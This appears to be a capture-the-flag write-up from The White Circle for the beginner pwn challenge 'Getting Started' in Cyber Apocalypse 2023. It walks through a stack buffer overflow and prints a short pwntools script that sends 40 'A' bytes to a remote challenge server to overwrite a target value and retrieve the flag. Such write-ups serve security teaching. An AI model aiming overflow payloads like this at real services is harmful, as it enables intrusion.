 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2023 | Getting Started Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2023
parent: cyber_apocalypse_2023
category: pwn
challenge: Getting Started
tags: "pwn, legend, python"
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2023</h1>

## Getting Started 
> Solved by Legend

Challenge description


> Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

In this challenge a challenge binary is given and a  `wrapper.py` file is given the code for buffer overflow.

![](https://i.imgur.com/6RwoC4j.png)


Executing the binary shows the Stack frame layout.

![](https://i.imgur.com/wgdbdWW.png)


After that it shows the stack with Address and Value along with indicators to where is the start of the buffer and what is the Target that needs to be changed.

![](https://i.imgur.com/XMsmiMc.png)


Then it shows what happens if we put A’s and B’s as input.

![](https://i.imgur.com/WGVoYSc.png)


Then it asks us to enter A’s to get change the value in Target. I placed 40 A’s and it grave the testing flag.

![](https://i.imgur.com/uUVYySG.png)


Now same can we done in the given script to automate this.


    #wrapper.py#!/usr/bin/python3.8
    
    '''
    You need to install pwntools to run the script.
    To run the script: python3 ./wrapper.py
    '''
    
    # Library
    from pwn import *
    
    # Open connection
    IP   = '165.232.98.69' # Change this
    PORT = 32238      # Change this
    
    r    = remote(IP, PORT)
    
    # Craft payload
    payload = b'A' * 40 # Change the number of "A"s
    
    # Send payload
    r.sendline(payload)
    
    # Read flag
    success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')

Running the script gave the flag.

![](https://i.imgur.com/krCUZGU.png)


